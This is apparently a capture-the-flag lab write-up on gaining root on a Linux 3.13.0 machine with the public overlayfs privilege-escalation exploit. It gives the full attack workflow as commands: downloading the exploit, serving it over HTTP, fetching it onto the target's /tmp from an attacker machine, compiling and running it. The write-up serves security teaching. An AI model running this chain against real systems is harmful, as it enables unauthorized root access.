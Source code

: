 # Kernel Exploits

**Step 1: SSH Login to the Target Machine**

First, SSH into the target machine.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 2: Check the Kernel Version**

Since we already know this is a kernel privilege escalation exploit, let's check the kernel version running on our target machine using the following command:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3: Search for Exploits**

Now that we have the kernel version, we can search in well-known exploit databases, such as [Exploit Database](https://www.exploit-db.com/).

Searching for `Linux 3.13.0` yields the following results:

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* **Exploit Found**: I found an exploit for the Linux Kernel versions `3.13.0` to `< 3.19` (specifically for Ubuntu 12.04, 14.04, 14.10, and 15.04) related to 'overlayfs' Local Privilege Escalation.

**Step 4: Review the Exploit Details**

When we open this exploit, we can see the details and some instructions on how to use it.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 5: Download the Exploit**

To make this exploit work, we need to download the raw content to the attack machine and then transfer it to the vulnerable machine. Choose a directory of your preference and use the `wget` command to download the exploit. For example:

```bash
wget https://www.exploit-db.com/raw/37292
```

**Step 6: Rename the File and Start the HTTP Server**

Next, rename the downloaded file to `ofs.c`, and start a simple HTTP server to transfer the file to the vulnerable machine:

```bash
python -m SimpleHTTPServer 8000
```

**Step 7: Download the Exploit on the Vulnerable Machine**

On the vulnerable machine, we must choose the `/tmp` directory for the download; otherwise, we will encounter a "Permission denied" message. Use the following command:

```bash
wget -O /tmp/ofs.c http://<attack_machine_IP>:8000/ofs.c
```

#### Breakdown of the Command

* **`wget`**: This is the command-line utility used for downloading files from the web.
* **`-O /tmp/ofs.c`**: The `-O` option specifies the output file name and path. In this case, it tells `wget` to save the downloaded file as `ofs.c` in the `/tmp` directory. The `/tmp` directory is often used for temporary files and is typically writable by all users.
* **`http://<attack_machine_IP>:8000/ofs.c`**: This is the URL from which you are downloading the file. It points to the file `ofs.c` being served by an HTTP server running on the machine with the IP address `10.10.242.118` on port `8000`.

**Step 8: Compile and Run the Exploit**

Now, navigate to the `/tmp` directory and follow the instructions presented in the exploit. Compile the file and then run it:

```bash
gcc ofs.c -o ofs
./ofs
```

**Step 9: Verify Privilege Escalation**

After running the exploit, we can verify our privileges. Running the `id` command again shows that we are now 'root'. We can also use the `whoami` command to confirm this:

```bash
id
whoami
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 10: Access the Flag**

To retrieve the flag, navigate to the `/home/matt` directory and use `cat` to view the contents of the file:

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we had tried to use `cat flag1.txt` before the exploit, we would have received a "Permission denied" message.

With this write-up, we demonstrated the impact of having an outdated system. Having access to a user's credentials allowed us to leverage that privilege to gain access to the root account. This exercise highlights the importance of keeping systems updated and patched against known vulnerabilities, as well as the potential risks associated with running outdated software.

